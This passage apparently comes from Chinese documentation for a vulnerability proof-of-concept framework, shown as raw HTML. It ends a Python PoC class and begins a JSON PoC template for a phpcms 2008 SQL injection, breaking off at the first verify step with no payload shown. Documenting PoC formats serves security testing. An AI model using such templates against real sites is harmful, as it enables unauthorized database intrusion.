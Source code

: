         <span class="hljs-keyword">return</span> self.parse_attack(result)

    <span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">parse_attack</span><span class="hljs-params">(self, result)</span>:</span>
        output = Output(self)
        <span class="hljs-keyword">if</span> result:
            output.success(result)
        <span class="hljs-keyword">else</span>:
            output.fail(<span class="hljs-string">'Internet nothing returned'</span>)
        <span class="hljs-keyword">return</span> output


register(TestPOC)
</code></pre><h4 id="poc-json-a-id-jsonexample-a-">PoC json 代码示例<a id="jsonexample"></a></h4>
<p><a href="http://www.seebug.org/vuldb/ssvid-62274">phpcms<em>2008</em>/ads/include/ads_place.class.php_sql注入漏洞</a> PoC:</p>
<p>由于json不支持注释,所以具体字段意义请参考上文，涉及到的靶场请自行根据Seebug漏洞详情搭建。</p>
<pre class="hljs json"><code>{
    "<span class="hljs-attribute">pocInfo</span>": <span class="hljs-value">{
        "<span class="hljs-attribute">vulID</span>": <span class="hljs-value"><span class="hljs-string">"62274"</span></span>,
        "<span class="hljs-attribute">version</span>":<span class="hljs-value"><span class="hljs-string">"1"</span></span>,
        "<span class="hljs-attribute">vulDate</span>":<span class="hljs-value"><span class="hljs-string">"2011-11-21"</span></span>,
        "<span class="hljs-attribute">createDate</span>":<span class="hljs-value"><span class="hljs-string">"2015-09-15"</span></span>,
        "<span class="hljs-attribute">updateDate</span>":<span class="hljs-value"><span class="hljs-string">"2015-09-15"</span></span>,
        "<span class="hljs-attribute">name</span>": <span class="hljs-value"><span class="hljs-string">"phpcms_2008_ads_place.class.php_sql-inj"</span></span>,
        "<span class="hljs-attribute">protocol</span>": <span class="hljs-value"><span class="hljs-string">"http"</span></span>,
        "<span class="hljs-attribute">vulType</span>": <span class="hljs-value"><span class="hljs-string">"SQL Injection"</span></span>,
        "<span class="hljs-attribute">author</span>": <span class="hljs-value"><span class="hljs-string">"Medici.Yan"</span></span>,
        "<span class="hljs-attribute">references</span>": <span class="hljs-value">[<span class="hljs-string">"http://www.seebug.org/vuldb/ssvid-62274"</span>]</span>,
        "<span class="hljs-attribute">appName</span>": <span class="hljs-value"><span class="hljs-string">"phpcms"</span></span>,
        "<span class="hljs-attribute">appVersion</span>" : <span class="hljs-value"><span class="hljs-string">"2008"</span></span>,
        "<span class="hljs-attribute">appPowerLink</span>":<span class="hljs-value"><span class="hljs-string">"http://www.phpcms.cn"</span></span>,
        "<span class="hljs-attribute">desc</span>" :<span class="hljs-value"><span class="hljs-string">"phpcms 2008 中广告模块，存在参数过滤不严，导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，如果关闭了错误显示，可以采用基于时间和错误的盲注"</span></span>,
        "<span class="hljs-attribute">samples</span>": <span class="hljs-value">[<span class="hljs-string">"http://127.0.0.1"</span>]
    </span>}</span>,

    "<span class="hljs-attribute">pocExecute</span>":<span class="hljs-value">{
        "<span class="hljs-attribute">verify</span>": <span class="hljs-value">[
            {
                "<span class="hljs-attribute">step</span>": <span class="hljs-value"><span class="hljs-string">"0"</span></span>,
                "<span class="hljs-attribute">method</span>": <span class="hljs-value"><span class="hljs-string">"get"</span></span>,
                "<span class="hljs-attribute">vulPath</span>": <span class="hljs-value"><span class="hljs-string">"/data/js.php"</span></span>,
                "<span class="hljs-attribute">params</span>": <span class="hljs-value"><span class="hljs-string">"id=1"</span></span>,
                "<span class="hljs-attribute">necessary</span>": <span class="hljs-value"><span class="hljs-string">""</span></span>,
